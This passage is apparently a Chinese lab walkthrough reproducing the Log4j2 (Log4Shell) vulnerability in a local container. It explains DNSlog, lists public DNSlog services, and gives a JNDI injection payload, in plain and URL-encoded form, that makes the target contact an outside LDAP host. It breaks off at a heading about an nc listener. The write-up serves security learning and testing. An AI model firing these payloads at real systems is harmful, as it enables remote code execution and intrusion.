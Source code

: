 #### 3.启动log4j2容器

![image-20240923143949549](https://image.201068.xyz/assets/36.漏洞复现/image-20240923143949549.png)

#### 4.访问地址

http://192.168.70.14:26315

![image-20240923144026652](https://image.201068.xyz/assets/36.漏洞复现/image-20240923144026652.png)

#### 5.进入漏洞界面

![image-20240923144045596](https://image.201068.xyz/assets/36.漏洞复现/image-20240923144045596.png)

### 3.可以用dnslog来测试是否有漏洞 

#### 1.dnslog原理

DNSlog就是储存在DNS上的域名相关的信息,它记录着你对域名或者IP的访问信息,也就是类似于日志文件。

首先了解一下多级域名的概念，我们知道因特网采用树状结构命名方法，按组织结构划分域是一个名字空间中一个被管理的划分，域可划分为子域，

子域再可被划分为多级域名称为一级域名，二级域名，三级域名，

从一个域名地址来从右到左依次是顶级域名，二级域名，三级域名,

例如 gaobai.kxsy.com,通俗的说就是我有个域名kxsy.work，我将域名设置对应的ip 2.2.2.2 上，

这样当我向dns服务器发起kxsy.work的解析请求时，DNSlog中会记录下他给kxsy.work解析，解析值为2.2.2.2，

而我们这个解析的记录的值就是我们要利用的地方,这个过程被记录下来就是DNSlog。

#### 2.在线的dnslog平台

http://www.dnslog.cn

http://ceye.io

http://dnslog.pw/login

#### 3.利用dnslog测试是否有漏洞

```python
http://192.168.70.14:26315/hello?payload=${jndi:ldap://fantasycat.dnslog.pw/exp}

http://192.168.70.14:26315/hello?payload=%24%7bjndi%3aldap%3a%2f%2ffantasycat.dnslog.pw%2fexp%7d
```

![image-20240923144258012](https://image.201068.xyz/assets/36.漏洞复现/image-20240923144258012.png)

![image-20240923144358472](https://image.201068.xyz/assets/36.漏洞复现/image-20240923144358472.png)

![image-20240923144614246](https://image.201068.xyz/assets/36.漏洞复现/image-20240923144614246.png)

### 4.nc监听
